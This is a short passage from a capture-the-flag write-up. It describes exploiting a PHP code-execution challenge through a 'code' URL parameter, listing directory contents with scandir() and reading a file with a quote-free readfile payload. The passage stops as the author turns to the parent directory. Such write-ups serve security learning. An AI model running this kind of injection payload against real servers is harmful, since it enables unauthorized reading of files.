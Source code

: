 ![](.gitbook/assets/image%20%2841%29.png)

With scandir\(\), i can print all file in current directory

![](.gitbook/assets/image%20%2839%29.png)

Checking content file well\_play\_but\_flag\_not\_here.php

```text
#view-source:http://45.76.181.81/?code=print(readfile(end(scandir(current(localeconv())))));
<?php 

$fl0wer="Flag not here! go to directory's parent directory";

?>
```

Checking parent folder ".." :
